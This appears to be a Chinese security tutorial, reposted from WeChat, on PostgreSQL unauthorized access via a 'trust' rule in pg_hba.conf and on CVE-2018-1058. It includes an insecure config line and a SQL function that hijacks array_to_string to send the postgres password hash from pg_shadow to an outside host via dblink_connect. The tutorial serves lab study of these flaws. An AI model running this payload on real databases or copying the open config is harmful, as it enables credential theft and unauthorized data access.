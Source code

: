 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/t7xn7h0B9RcNpaSuVS8_Vg)

_**声明**_

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，雷神众测以及文章作者不为此承担任何责任。  
雷神众测拥有对此文章的修改和解释权。如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经雷神众测允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。

_**_**No.1  
**_**_

_**PostgreSQL 介绍**_

PostgreSQL(也称 postgres) 是一个自由的对象 - 关系数据库服务器 (数据库管理系统)，它在灵活的 BSD - 风格许可证下发行。它提供了相对其他开放源代码数据库系统 (比如 MySQL 和 Firebird)，和专有系统 (比如 Oracle 、Sybase、IBM 的 DB2 和 Microsoft SQL Server) 之外的另一种选择。

PostgreSQL 在国外的流行程度不亚 MySQL，如 msf 的数据库就是 PostgreSQL。但是如果管理员没有正确的配置 PostgreSQL，则会导致**任意用户无需密码**都可以访问 PostgreSQL 数据库。

_**_**No.2  
**_**_

_**PostgreSQL 未授权漏洞**_

**漏洞原因**

PostgreSQL 配置不当漏洞的形成原因：PostgreSQL 配置不当漏洞主要是由于管理员配置不当形成的，PostgreSQL 配置文件在 / var/lib/pgsql/9.2/data/pg_hba.conf，如果管理员没有正确的配置信任的主机（如下图），则会导致任意用户无需密码都可以访问 PostgreSQL 数据库。

这里简单介绍下 pg_hba.conf 配置文件，除去注释掉的部分，主要生效的配置内容就是上图红圈部分，解释下这行的意义：

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JWCrcXsRRuMSFwRYoT70wZ4vosqLBdEz4wLFibIN3wstFGic7oJUv8zo6vGOdQ8rC5fqibMic81xfTJGw/640?wx_fmt=png)

```
host    all     all     0.0.0.0/0       trust
```

host 表示匹配类型，第一个 all 表示任何数据库， 第二个 all 表示任何数据库用户的访问，0.0.0.0/0 表示任何 ip 地址访问本数据库服务，最后的 trust 表示对满足条件的主机免密码登录。

上述配置则导致：**允许任何来源 ip 主机，使用任何数据库账户，免密码访问任何数据库**，这将直接导致了数据库中所有数据泄露。

_**_**No.3  
**_**_

_**PostgreSQL 提权漏洞**_

_**（CVE-2018-1058）**_

通过 vulhub 搭建漏洞平台，登录到数据平台获取当前会话用户。  
postgres 提供了自定义函数的功能！我们创建如下函数：

```
CREATE FUNCTION public.array_to_string(anyarray,text) RETURNS TEXT AS $$
    select dblink_connect((select 'hostaddr=192.168.8.10 port=7777 user=postgres password=chybeta sslmode=disable dbname='||(SELECT passwd FROM pg_shadow WHERE usename='postgres'))); 
    SELECT pg_catalog.array_to_string($1,$2);
$$ LANGUAGE SQL VOLATILE;
```

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JWCrcXsRRuMSFwRYoT70wZ4xaENodlXCiaAa9TpOySDOAiaunZK7lqAYMYU93G1LibWHWEViayRQvsw2Q/640?wx_fmt=png)
